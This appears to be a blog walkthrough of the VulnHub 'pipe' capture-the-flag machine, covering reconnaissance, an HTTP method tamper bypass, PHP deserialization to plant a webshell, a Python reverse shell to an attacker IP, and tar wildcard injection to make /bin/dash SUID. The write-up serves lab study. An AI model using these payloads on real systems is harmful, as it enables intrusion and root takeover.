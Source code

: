 ```yaml
---
layout: post
title: "pipe"
date: 2016-08-23 1:31:51 -0500
comments: true
categories: [vulhub, tar wildcard, php serialization]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* Burp

###Vulnerabilities:

[Tar arbitrary command execution](http://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/pipe/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.163 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.163 -p-`

{% img  /images/blog/vulhub/pipe/Selection_002.png   [title manually exploit [alt text]] %}

there are 4 ports are opening

use nikto to scan

`nikto -h 192.168.41.162`	

{% img  /images/blog/vulhub/pipe/Selection_005.png   [title manually exploit [alt text]] %}

shows there is an `index.php` but needs autherication

{% img  /images/blog/vulhub/pipe/Selection_003.png   [title manually exploit [alt text]] %}


use wfuzz to scan

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  --hc 401 http://192.168.41.163/FUZZ 2>/dev/null`

get a path `scriptz`

{% img  /images/blog/vulhub/pipe/Selection_004.png   [title manually exploit [alt text]] %}

find a file `log.php.BAK`, looks like backup file of log.php

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```

in order to check if the authentication can be bypassed, I use `http method tamper`.

`nmap -p 80 --script http-method-tamper --script-args 'http-method-tamper.paths={/index.php}' 192.168.41.163`

{% img  /images/blog/vulhub/pipe/Selection_006.png   [title manually exploit [alt text]] %}

It's vulnerable to POST method.

Use Burp to change GET request to /index.php to POST request, and get the page:

{% img  /images/blog/vulhub/pipe/Selection_007.png   [title manually exploit [alt text]] %}

check the source code:

{% img  /images/blog/vulhub/pipe/Selection_008.png   [title manually exploit [alt text]] %}

The page will load `scriptz/php.js`, and it serialises some data. Based on the log.php.BAK code,

click link `Show Artist Info`, get the url, after decoding:

`O:4:"Info":4:{s:2:"id";i:1;s:9:"firstname";s:4:"Rene";s:7:"surname";s:8:"Margitte";s:7:"artwork";s:23:"The+Treachery+of+Images";}`

The “Info” function looks like a way to read information from a specific file. Recheck the log.php.BAK file, find it use `file_put_contents($this->filename, $this->data, FILE_APPEND)` to write data to a file.

Test if it can write to a Log file

`param=O:3:"Log":2:{s:8:"filename";s:8:"Test.txt";s:4:"data";s:4:"TEST";}`

doesn't work

`param=O:3:"Log":2:{s:8:"filename";s:30:"/var/www/html/scriptz/Test.txt";s:4:"data";s:4:"TEST";}`

works


based on that, build payload:

`param=O:3:"Log":2:{s:8:"filename";s:31:"/var/www/html/scriptz/shell.php";s:4:"data";s:60:" <?php echo '<pre>'; system($_GET['cmd']); echo '</pre>'; ?>";}`


replace the parameter in Burp. forward the traffic


{% img  /images/blog/vulhub/pipe/Selection_010.png   [title manually exploit [alt text]] %}

then:

{% img  /images/blog/vulhub/pipe/Selection_009.png   [title manually exploit [alt text]] %}

webshell is there.

setup backdoor:

`http://192.168.41.163/scriptz/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.41.149",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

get the shell:

{% img  /images/blog/vulhub/pipe/Selection_011.png   [title manually exploit [alt text]] %}


`python -c 'import pty; pty.spawn("/bin/bash")'`


try to find linux kernel local exploit, but I find there is no gcc in the box.

keep looking.


find 

{% img  /images/blog/vulhub/pipe/Selection_012.png   [title manually exploit [alt text]] %}


Looks like system does backup automatically. check `/etc/crontab`


{% img  /images/blog/vulhub/pipe/Selection_013.png   [title manually exploit [alt text]] %}

`/usr/bin/compress.sh` can be read

I find the tar uses wild card. Here I will try Tar arbitrary command execution.

{% img  /images/blog/vulhub/pipe/Selection_014.png   [title manually exploit [alt text]] %}

first check which shell is being use in target

`ls -al /bin/*sh`


{% img  /images/blog/vulhub/pipe/Selection_017.png   [title manually exploit [alt text]] %}

start to create shell:

```
www-data@pipe:/home/rene/backup$ echo > --checkpoint=1;                    
www-data@pipe:/home/rene/backup$ echo > --checkpoint-action=exec=sh\ shell.sh;                     
www-data@pipe:/home/rene/backup$ echo 'chmod u+s /bin/dash' > shell.sh
www-data@pipe:/home/rene/backup$ echo 'touch /home/rene/backup/done' >> shell.sh                     
www-data@pipe:/home/rene/backup$ cat shell.sh
chmod u+s /bin/dash
touch /home/rene/backup/done
www-data@pipe:/home/rene/backup$ chmod +x shell.sh

```

just wait a few miniutes and a file `done` will be created


{% img  /images/blog/vulhub/pipe/Selection_015.png   [title manually exploit [alt text]] %}


run `/bin/dash` and get the shell

{% img  /images/blog/vulhub/pipe/Selection_016.png   [title manually exploit [alt text]] %}









